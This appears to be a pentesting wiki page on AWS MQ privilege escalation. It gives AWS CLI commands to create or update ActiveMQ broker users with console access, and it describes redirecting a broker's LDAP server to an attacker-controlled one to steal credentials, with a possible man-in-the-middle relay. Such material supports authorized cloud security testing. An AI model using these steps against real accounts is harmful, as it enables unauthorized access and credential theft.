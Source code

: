 # AWS - MQ Privesc

{{#include ../../../banners/hacktricks-training.md}}

## MQ

For more information about MQ check:

{{#ref}}
../aws-services/aws-mq-enum.md
{{#endref}}

### `mq:ListBrokers`, `mq:CreateUser`

With those permissions you can **create a new user in an ActimeMQ broker** (this doesn't work in RabbitMQ):

```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```

**Potential Impact:** Access sensitive info navigating through ActiveMQ

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

With those permissions you can **create a new user in an ActimeMQ broker** (this doesn't work in RabbitMQ):

```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```

**Potential Impact:** Access sensitive info navigating through ActiveMQ

### `mq:ListBrokers`, `mq:UpdateBroker`

If a broker is using **LDAP** for authorization with **ActiveMQ**. It's possible to **change** the **configuration** of the LDAP server used to **one controlled by the attacker**. This way the attacker will be able to **steal all the credentials being sent through LDAP**.

```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```

If you could somehow find the original credentials used by ActiveMQ you could perform a MitM, steal the creds, used them in the original server, and send the response (maybe just reusing the crendetials stolen you could do this).

**Potential Impact:** Steal ActiveMQ credentials

{{#include ../../../banners/hacktricks-training.md}}





